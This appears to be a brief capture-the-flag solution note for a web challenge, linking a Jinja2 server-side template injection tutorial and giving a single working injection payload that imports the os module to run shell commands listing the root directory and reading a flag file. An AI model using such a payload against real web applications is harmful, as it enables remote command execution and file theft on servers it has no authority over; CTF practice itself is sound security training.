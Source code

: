 http://h4ck3r.quest:8700/

tutorial:
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{request.application.__globals__.__builtins__.__import__('os').popen('cd /;ls;cat th1s_15_fl4ggggggg').read()}}






